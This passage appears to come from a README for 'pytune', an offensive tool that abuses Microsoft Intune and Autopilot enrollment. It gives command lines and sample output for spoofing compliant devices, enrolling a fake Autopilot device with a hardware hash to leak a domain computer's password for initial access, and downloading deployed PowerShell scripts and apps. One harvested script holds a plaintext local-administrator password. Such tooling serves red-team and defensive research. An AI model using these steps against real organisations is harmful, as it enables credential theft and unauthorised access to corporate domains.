 You can modify what settings are sent as a fake device, for example, in `device/windows.py`.
Then, re-enroll and check-in again so that you can get a fake device being marked as compliant.

### Leak domain computer credentials

When Hybrid Autopilot is configured, you can leak a domain computer's credential for initial access.
To enroll a fake device as AutoPilot, you need to get a hardware hash from your test machine.

As for the hardware hash retrieval, you can referer to the following page.

https://learn.microsoft.com/en-us/autopilot/add-devices#powershell

Then, you can provide the hardware hash in `-H` parameter in `checkin` command.

```
$ python3 pytune.py checkin -o Windows -d Windows_pytune -c Windows_pytune.pfx -m Windows_pytune_mdm.pfx  -u testuser@*******.onmicrosoft.com -p *********** -H $HWHASH
```

Then, after the initial check-in with the hardware hash, the next check-in will give you the domain credential.

```
[+] got online domain join blob
[*] parse domain join info...
 - domain: vuln.local
 - computername: DESKTOP-PZjn0P9$
 - computerpass: _`@#"%zsw^W***********************************************
```

### Download Win32 apps and PowerShell scripts

If there are Win32 apps or PowerShell scripts to be delviered, you can donwload it through `download_apps` command.
Here is the example of the command.

```
$ python3 pytune.py download_apps-m Windows_pytune_mdm.pfx                                                                            
[*] downloading scripts...
[!] scripts found!
[*] #1 (policyid:f7e2c3b6-b57f-43fb-a17f-2feab218806b):

$userName = "pcadmin"
$password = "SuperSecurePassword" 
$securePassword = ConvertTo-SecureString -String $password -AsPlainText -Force

New-LocalUser -Name $userName -Password $securePassword -FullName "Local Administrator" -Description "Local Admin User" -PasswordNeverExpires
Add-LocalGroupMember -Group "Administrators" -Member $userName

[*] downloading win32apps...
[!] found ContosoCorpCustomApp!
[*] downloading from http://swdc01-mscdn.manage.microsoft.com/3decc354-7c51-4c78-9f40-7eb57efbe447/6505c9ee-4847-4d5c-a7bb-aa99ec92d674/4ad4d2b8-9210-4496-ad12-11f48d255119.intunewin.bin ...
[+] successfully downloaded to ContosoCorpCustomApp.intunewin!
[!] found DomainJoin.bat!
[*] downloading from http://swdc02-mscdn.manage.microsoft.com/3decc354-7c51-4c78-9f40-7eb57efbe447/f7131f16-29ef-415d-b549-ea706cba6da0/e9c4f14e-9d76-4797-a697-7139d64c8975.intunewin.bin ...
[+] successfully downloaded to DomainJoin.bat.intunewin!
```
